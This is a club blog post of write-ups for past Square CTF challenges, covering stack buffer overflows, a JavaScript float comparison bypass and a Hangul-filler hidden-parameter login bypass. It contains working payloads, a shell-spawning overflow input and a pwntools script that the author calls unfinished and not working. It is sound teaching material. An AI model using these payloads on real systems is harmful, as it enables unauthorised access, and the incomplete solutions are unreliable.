





Title: Square Practice CTF selected solutions
Preview: Solutions to a few selected challenges from previous Square CTFs, for use by NKCyber club members.
Date: 2023-11-10
Tags: nkcyber, cybersecurity

Related: [Hosting these challenges](/blog/square-ctf-2022.html)

## EZ pwn 1 (2022)

<https://squarectf.com/2022/ezpwn1.html>

> **Challenge Description:**
>
> Memory safety? Whats that?
> Required Reading:
> \- https://en.wikipedia.org/wiki/Stack_buffer_overflow

Along with this challenge, we are given the following C program:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>


int main()
{
    char command[16];
    char way_too_small_input_buf[8];
    strcpy(command, "ls");

    puts("Hi! would you like me to ls the current directory?");
    read(0, way_too_small_input_buf, 24);
    if (!strcmp(way_too_small_input_buf, "no\n")) {
        puts("Oh, ok :(");
        exit(0);
    }

    puts("Ok, here ya go!\n");
    system(command);

}
```

This helpful program starts by copying a command into memory, which will then be executed at runtime.

In ideal usage, we can netcat into this server, and it will helpfully print out the files:

```bash
$ nc YOUR_HOST YOUR_PORT
Hi! would you like me to ls the current directory?
yes!
Ok, here ya go!

ez-pwn-1  the_flag_is_in_here
```

Hmm, it looks like there's a directory called `the_flag_is_in_here`. It sure would be nice if we could do more than just `ls`.

Let's look at the core part of the program:

```c
char way_too_small_input_buf[8];
// ...
read(0, way_too_small_input_buf, 24); // read input from user into that buffer
```

The `read` function is trying to read 24 bytes of data into `way_too_small_input_buf`, which is only 8 bytes in size. This means that if a user inputs more than 8 bytes, the excess data will overflow into the adjacent memory space, which in this case is occupied by the `command` buffer.

In C, local variable order is **implementation defined**. That is, we can't guarantee it's going to be in a specific order. However, when C is compiled with [gcc](https://gcc.gnu.org/), variables are stored on the stack in the reverse order of their declaration. So, even though `way_too_small_input_buf` is declared after `command`, it is actually located at a lower memory address. When a buffer overflow occurs, it overflows upwards into higher memory addresses, affecting `command` in this case.

```
Higher memory addresses
---------------------------
|     command             |
---------------------------
| way_too_small_input_buf |
---------------------------
Lower memory addresses

```

So, if a buffer overflow occurs in `way_too_small_input_buf`, it will overflow into the memory space occupied by `command`.

Using this information, we can try to overflow the buffer:

```
Higher memory addresses
------------
| pwd      |
------------
| aaaaaaaa |
------------
Lower memory addresses
```

So we can enter:

```
Hi! would you like me to ls the current directory?
aaaaaaaapwd
Ok, here ya go!

/home/pwnable_user
```

That's great! We just changed the command it's executing. Let's try using `/bin/bash` to get an executable shell.

And, there we go!

```
Hi! would you like me to ls the current directory?
aaaaaaaa/bin/bash
Ok, here ya go!

pwd
/home/pwnable_user
ls
ez-pwn-1  the_flag_is_in_here
cd the_flag_is_in_here
ls
flag.txt
cat flag.txt
flag{congrats_youve_exploited_a_memory_corruption_vulnerability}
```

## EZ pwn 2 (2022)

<https://squarectf.com/2022/ezpwn2.html>

Challenge Description:

> **Required reading:**
>
> - [intro to x86](https://www.cs.virginia.edu/~evans/cs216/guides/x86.html)
> 
>- [x86-64 stack layout](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64)
> 
> - [Stack Canaries](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/)
> 
>- [stack based buffer overflows]( https://en.wikipedia.org/wiki/Stack_buffer_overflow )
> 
>- [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)
> 
>**Optional Reading:**
> 
> - [pwntools](https://docs.pwntools.com/en/stable/intro.html#making-connections)
> 

And we are given the following C program:

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>

void hex_string_to_byte_array(char *hex_str, char *byte_arr, int size)
{
    int byte_ind = 0;
    for (int count = 0; count < size; count += 2)
    {
        sscanf(&hex_str[count], "%2hhx", &byte_arr[byte_ind]);
        byte_ind++;
    }
}

// this can also easily be used for memory leaks
void print_buf(unsigned char *buf, int sz)
{
    for (int i = 0; i < sz; i++)
    {
        printf("%02X", buf[i]);
    }
    puts("\n");
}

void this_function_literally_prints_the_flag()
{
    char flag[64];
    int fd = open("flag.txt", O_RDONLY);
    read(fd, flag, 64);
    puts(flag);
    close(fd);
}

void gimme_pointer()
{
    char *leak_addr;
    char this_buffer_is_definitely_too_small_for_that_read[17];
    printf("You are here: %p\n Give me an address and I will grant you 8 leaked bytes:\n", this_buffer_is_definitely_too_small_for_that_read);
    read(0, this_buffer_is_definitely_too_small_for_that_read, 64);
    hex_string_to_byte_array(this_buffer_is_definitely_too_small_for_that_read, (char *)&leak_addr, 16);
    printf("Here are the contents of %p:\n", leak_addr);
    print_buf(leak_addr, 8);
}

int main()
{
    puts("Hi! I am the Stack Oracle.\n");
    while (1)
    {
        gimme_pointer();
    }
}
```

Looking at the required reading, we see a reference to the x86-64 stack layout.

[Eli Bendersky's blog post](https://eli.thegreenplace.net/2011/02/04/where-the-top-of-the-stack-is-on-x86/) has a great series of diagrams showing how data is pushed onto the stack.

When a buffer overflow occurs, you’re writing more data to a local variable than it can hold. This extra data can overwrite other local variables and even the return address. By carefully controlling the data that’s written, you can overwrite the return address with an address of your choosing.

Looking at the code:

```c
char this_buffer_is_definitely_too_small_for_that_read[17];
printf("You are here: %p\n Give me an address and I will grant you 8 leaked bytes:\n", this_buffer_is_definitely_too_small_for_that_read);
read(0, this_buffer_is_definitely_too_small_for_that_read, 64);
```

Our goal here is to find the offset of the function `this_function_literally_prints_the_flag`.

The gimme_pointer function has a buffer overflow vulnerability because it reads 64 bytes into a 17-byte buffer. This can overwrite the saved return address on the stack. If we can control this overwrite, we can make the function return to this_function_literally_prints_the_flag instead of where it was supposed to go.

Also, note that modern systems use Address Space Layout Randomization (ASLR) to randomize the location of functions in memory, so we're going to have to do this calculation based on the printed hex value.

It's also important to note how our input must be formed:

```
Hi! I am the Stack Oracle.

You are here: 0x7ffc771ffd60
 Give me an address and I will grant you 8 leaked bytes:
deadbeef
Here are the contents of 0xefbeadde:
```

In little endian format, the least significant byte is stored first. So, for the hexadecimal number [deadbeef](https://en.wikipedia.org/wiki/0xDEADBEEF), it would be stored and interpreted as `efbeadde`.

This is why when we input `deadbeef`, the program reads it as 0xefbeadde. If you want the program to interpret it as `0xdeadbeef`, you would need to input it in little endian format, which would be `efbeadde`.

```
Hi! I am the Stack Oracle.

You are here: 0x7ffff5a86980
 Give me an address and I will grant you 8 leaked bytes:
efbeadde
Here are the contents of 0xdeadbeef:
```

I'm gonna be real with you: i haven't figured this out yet. If I find a solution, I'll update you here. This is my best attempt so far, but I think I'm missing something.

```py
from pwn import *

def to_little_endian(hex_str: str) -> str:
    # ensure the hex number has even length
    if len(hex_str) % 2 != 0:
        hex_str = "0" + hex_str

    # reverse the byte order
    little_endian = "".join(reversed([hex_str[i:i+2] for i in range(0, len(hex_str), 2)]))

    return little_endian


def hack(offset):
    print(f"trying offset {offset}...")
    # Establish a connection to the challenge
    conn = remote('ctfd.zack.fyi', 8003)

    # Read the initial output from the server
    output = conn.recvuntil(b'Give me an address and I will grant you 8 leaked bytes:\n')

    output_str = output.decode('utf-8') # ensure connection is text

    # parse address from connection
    address_match = re.search(r'0x[0-9a-fA-F]+', output_str)
    if address_match:
        hex_address = address_match.group(0)  # the hex address
    else:
        raise 'No address found in the output.'

    # parse address as hex
    # int takes (string to convert, base to convert within)
    address = int(hex_address, 16)

    new_address = hex(address - offset)[2:] # hex, chopping off '0x'

    print(f'We are at {hex_address}. reading at {new_address}')
    little_endian_encoded = to_little_endian(new_address)

    buffer_overflow = 'a'*17
    padding = '0' * (64 - len(little_endian_encoded)) # pad 64 bit address, little endian encoded?
    payload = buffer_overflow + padding + little_endian_encoded
    conn.send(payload.encode('utf-8')) # send our new address back

    response = conn.recv()
    response_str = response.decode('utf-8')
    if len(response_str) > len('Here are the contents of 0x7fff64b6fa37: \n'):
        print(response_str)

    # Close the connection
    conn.close()

for offset in range(13, 25):
    hack(offset)
```

## Huge Primes (2021)

<https://squarectf.com/2021/hugeprimes.html>

> Find the prime factors of `22952152323332505688670761214671498225451684330137990990356473040741684014997701799009910066964917896400501477`

This challenge is designed to trick you.

Factoring this really large number is going to be incredibly difficult. 

This is really a challenge about binary numbers in JavaScript.

We are provided with the file `sourcecode.js`:

```js
const express = require('express');
const bodyParser= require('body-parser');
const app = express();
const hugeProductOfPrimes = 22952152323332505688670761214671498225451684330137990990356473040741684014997701799009910066964917896400501477
const flag = ";)"
const correct = "Correct! Here is your flag: " + flag
const incorrect = "Incorrect factors! Try again"

// Constants
const PORT = 8080;
const HOST = '0.0.0.0';

app.set('view engine', 'ejs')

app.listen(PORT, HOST);
console.log(`Running on http://${HOST}:${PORT}`);

app.use(bodyParser.urlencoded({ extended: true }))

app.get('/', (req, res) => {
  res.sendFile(__dirname + '/index.html')
})

app.post('/factors', (req, res) => {
  a = req.body['a']
  b = req.body['b']
  if (a * b == hugeProductOfPrimes && a >= 2 && b >= 2) {
    res.render('index.ejs', { flag: correct })
    console.log()
  } else {
    res.render('index.ejs', { flag: incorrect })
  }
});

```

Here is the solution provided by the challenge author:


<blockquote>
One solution is to find the actual prime factors of 22952152323332505688670761214671498225451684330137990990356473040741684014997701799009910066964917896400501477 by actually factorizing it.
The solution is 618706242907094285939447607839 * 37097011039500744117766681095100420923783393727502071430377140015810453843499643 (I know because I generated these two primes and multipled them together :P)
This is nontrivial however, and not even I know the prime factors :P

However, all numbers in JavaScript are floats, and beyond 2^53 - 1, all numbers in js are floats. With a number as large as the one above, this means that the double precision representation of the number is:

1.0011100010111011111000001010110110101011111111100001 * 2^363

Which is equal to 22952152323332505416587153773067821404219604570062873267600242062142093944707836288883856033656043372550291456
(which is definitely NOT the same number!). In fact, with numbers that large, all numbers in js are actually just powers of 2 and thus, are even!

This leads to weird quirks, such as the fact that 22952152323332505416587153773067821404219604570062873267600242062142093944707836288883856033656043372550291456 == 22952152323332505688670761214671498225451684330137990990356473040741684014997701799009910066964917896400501477 returns true

We could thus bypass the check with something like this:
22952152323332505688670761214671498225451684330137990990356473040741684014997701799009910066964917896400501477 / 2 = 1.1476076161666253e+109

Note that this returns true:
1.1476076161666253e+109 * 2 == 22952152323332505688670761214671498225451684330137990990356473040741684014997701799009910066964917896400501477

(see https://www.exploringbinary.com/the-spacing-of-binary-float)
</blockquote>

To solve this one, I recommend used WolframAlpha to handle the math for me, in scientific notation, with the query "number / 2 in scientific notation" ([link](https://www.wolframalpha.com/input?i=22952152323332505688670761214671498225451684330137990990356473040741684014997701799009910066964917896400501477%2F2+in+scientific+notation))



Clicking 'more digits', and converting the result to Javascript yields us `1.1476076161666252e109` and `2`, which gives us the flag.

## Developer's Hubris (2022)

<https://squarectf.com/2022/developershubris.html>

> You're a new security engineer at the company, and you just found a fairly old, unfinished application running in a staging environment that is exposed to the internet. You bring this up to the developers, since it seems likely that hackers will look for ways to use this application as an entrypoint into the corporate environment. However, they tell you that it's just a basic bug report submission portal, and any dangerous code has been removed or hidden, so it should be safe. See if they left any loose ends that could be used to compromise the entire application

Well, that's a bit vague.

Let's see what we're working with:



Beautiful graphic design 🤩

What happens when we enter in some data?



And we get:

```
Sorry, a new folder couldn't be created for your reports
```

Hmm. Unfortunate.

Checking the source code (<kbd>Ctrl</kbd>+<kbd>U</kbd>)  of the main page, we see:

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Report Submission</title>
</head>
<body>
<h1>Please fill out the form below to submit a report</h1>
<form action="/reports/submit" method="post">
  <label for="name">Name:</label><br>
  <input type="text" id="name" name="name"><br>
  <label for="subject">Subject:</label><br>
  <input type="text" id="subject" name="subject"><br>
  <label for="message">Message:</label><br>
  <textarea id="message" name="message" rows="5" cols="60"></textarea><br>
  <input type="submit">
</form>
<!--<iframe src="/help.html" title="Help Menu"></iframe>-->
</body>
</html>
```

Looks like someone commented out an iframe linking to the help menu!

What happens when we visit `/help.html`?




If we use our browser's developer tools to edit the page to replace

```
<!--<iframe src="/help.html" title="Help Menu"></iframe>-->
```

with

```html
<iframe src="/help.html" style="width: 100%; height:20em;" title="Help Menu"></iframe>
```

We can see the help page.


**THIS IS NOT FINISHED EITHER**


## Korean Space Program

<https://squarectf.com/2021/koreanspaceprogram.html>

> The Korean Space Program's login portal is having trouble with unauthorized access to their systems. You can find their login page linked. Can you take a look at it and the included source file to figure out what is wrong?

This problem includes the following Express app:

<details>
<summary>Show full code</summary>

```js
const express = require('express');
const { timingSafeEqual } = require('crypto');

// TODO: What were we optimizing by using bitflags for the environments again?
// Note: values are 1, 2, 4, 8, 16, 32
const [ENV_PROD_EAST, ENV_PROD_WEST, ENV_STAGE_EAST, ENV_STAGE_WEST, ENV_DEV_EAST, ENV_DEV_WEST] =
      [0b000001,      0b000010,      0b000100,       0b001000,        0b010000,     0b100000];

// Unicode in the username makes it more secure, thankfully we can have unicode characters in source
const [USERNAME, PASSWORD] = ['root🚀', 'ROOT_PASSWORD_NOT_SHARED'];
const FLAG = 'FLAG_NOT_SHARED'

const app = express();
const ENVIRONMENT = '2'; // Note: We are deployed in production-west

function stringsEqual(str1, str2) {
  if (str1 === undefined || str2 === undefined || str1.length !== str2.length) {
    return false;
  }
  return timingSafeEqual(Buffer.from(str1, "utf8"), Buffer.from(str2, "utf8"));
}

app.get('/login', async (req, res) => {
    const {
      username,
      password,
   ㅤ} = req.query;

   // Note: Auth check here, only bypassable in staging or dev envs
    if ((stringsEqual(USERNAME, username) && stringsEqual(PASSWORD, password)) ||
        (+ENV_STAGE_EAST ==ㅤ+ENVIRONMENT || +ENV_STAGE_WEST ==ㅤ+ENVIRONMENT) ||
        (+ENV_DEV_EAST ==ㅤ+ENVIRONMENT || +ENV_DEV_WEST ==ㅤ+ENVIRONMENT)) {
      res.status(200);
      res.send(FLAG);
    } else {
      res.status(401);
      res.send('UNAUTHORIZED');
    }
});

app.get('/', async (req, res) => {
  res.status(200);
  res.send(`
  <html>
  <head><title>Korean Space Agency Login Portal</title></head>
  <style type="text/css">
  body{max-width: 800px; margin: 0 auto;}
  label{display: block;margin-bottom: 0.25em;}
  input{display:block;padding: 10px;width:100%;}</style>
  <body>
  <h1>Korean Space Agency Login Form 🚀</h1>
  <form action="/login" method="GET">
  <label for="username">Username:</label><input type="text" name="username"><br>
  <label for="password">Password:</label><input type="password" name="password"><br>
  <input type="submit">
  </form>
  </body>
  </html>
  `)
});

app.listen(8080, '0.0.0.0');
```

</details>

This looks pretty innocent to begin with. They're even making sure that it's secure against timing attacks. That's great.

However, if you're in Vim and you do [`:set list`](https://stackoverflow.com/a/1675752), you'll notice something off:


There are no spaces between the environment checks 🤔

Looking more closely, using a Unicode Character analyzer, we can see that the Korean developers must have errantly added some whitespace to this code:


This is a theme for all of the [unary plus expressions](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Unary_plus). They are prefixed by the Unicode Character “ㅤ” ([U+3164](https://www.compart.com/en/unicode/U+3164))

> The Hangul Filler character is used to introduce eight-byte Hangul composition sequences and to stand in for an absent element (usually an empty final) in such a sequence.
>
> &mdash; <cite href="https://en.wikipedia.org/wiki/KS_X_1001#Hangul_Filler">Wikipedia</cite>

There's also a Hangul Filler character in the object destructuring:

```js
const {
  username,
  password,
ㅤ} = req.query;
```

meaning that three request parameters are destructured into local variables:

```js
req.query.username
req.query.password
req.query.ㅤ// HANGUL FILLER
```

As such, we can control the value of the filler character via URL parameters.

If we throw this into <https://astexplorer.net/>, we can see that the left expression is properly interpreted as a [UnaryExpression](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Unary_plus), which is what we wanted. It's going to make any number positive.



However, the right hand side of `+ENV_STAGE_WEST ==ㅤ+ENVIRONMENT` gets interpreted as a binary expression, concatenating the variable named `\u3164` (whitespace) to `ENVIRONMENT`.

Thus, if we can control the value of that variable, we can make the environment comparison evaluate to `true`, and we can get access.

Looking at the values we're comparing to, we'd need to produce one of 1, 2, 4, 8, 16, or 32.

```js
(+ENV_STAGE_EAST ==ㅤ+ENVIRONMENT || +ENV_STAGE_WEST ==ㅤ+ENVIRONMENT) ||
(+ENV_DEV_EAST ==  ㅤ+ENVIRONMENT || +ENV_DEV_WEST ==  ㅤ+ENVIRONMENT)
```

In the final comparison, we can see that `ENV_DEV_WEST` equals `32`, and we know that `ENVIRONMENT` is set to `2`.

As such, if we set the Hangul whitespace to 3, we'll make `"32"`, which is equal to `32` when compared with [`==`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Equality).

We can start with a request saying that ``\u3164`` must equal `3`, such as:

```javascript
const character = 'ㅤ';
// use Chrome/FireFox/nodejs to convert this for you:
const encoded = encodeURIComponent(character);
console.log(`/login?${encoded}=3`) // prints /login?%E3%85%A4=3
```

In the provided code, the Hangul whitespace character ‘ㅤ’ is being used as a property name in `req.query`. When you visit `/login?%E3%85%A4=3`, the URL is decoded to `/login?ㅤ=3`, and `req.query.ㅤ` is set to `'3'`.

It's worth being aware of [Non-space blank characters](https://en.wikipedia.org/wiki/Whitespace_character#Non-space_blanks) for situations like this.
